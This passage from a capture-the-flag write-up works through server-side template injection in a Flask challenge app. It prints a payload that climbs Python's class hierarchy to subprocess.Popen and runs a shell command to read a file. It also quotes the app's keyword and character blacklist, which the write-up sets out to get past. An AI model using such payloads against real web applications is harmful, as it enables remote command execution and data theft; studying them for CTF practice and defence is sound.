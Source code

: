 ```python
if __name__ == "__main__":
    app.run(debug=True)

```

We can see two interesting functions here : 
1. @app.route('/strategyguide.txt') : yeah, we can never read the file from here, gonna try harder
2. def check_chars(text='') : hmm, the old but gold blacklisting function ...

We need to find out another way to read the flag file. Applications with SSTI are often vulnerable to local file reading. 
We can try to read the file using the classic :
```html
''.__class__.__mro__[1].__subclasses__()[40]('POPEN ARGS')
```

The idea behind the above snippet is going back the string class hierarchy and reach ____subclasses()[INDEX]____ so we can see if we can find useful classes for our goal. 
If we are lucky enough we can find out the __subprocess.Popen__ class. Lets list all the interesting classes :

```html
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, ... <class 'subprocess.CompletedProcess'>, <class 'subprocess.Popen'>, <class '_hashlib.HASH'>, <class '_blake2.blake2b'>, <class '_blake2.blake2s'>, <class '_sha3.sha3_224'>, <class '_sha3.sha3_256'>, <class '_sha3.sha3_384'> ... , <class 'multiprocessing.synchronize.SemLock'>, <class 'multiprocessing.synchronize.Condition'>, <class 'multiprocessing.synchronize.Event'>, <class 'multiprocessing.popen_fork.Popen'>]
```

Yeah, a lot of classes ... Let's cut out the useless classes so we can see our friend <class 'subprocess.Popen'> at index 199 of the subclasses list. 
At this point the payload would be : 

```
''.__class__.__mro__[1].__subclasses__()[199]('cat strategyguide.txt', shell=True, stdout=-1).communicate()
```
![web](/assets/img/TJCTF20/web_5.png)

Or maybe not ? Oh yeah, the blacklisting function. Lets analyze it better : 

1. No words containig : 
```python
illegal = ['"', 'class', '[', ']', 'dict', 'sys', 'os', 'eval', 'exec', 'config.']
```
2. No numbers :
```python
for i in range(10):
        if str(i) in text:
            return False
```
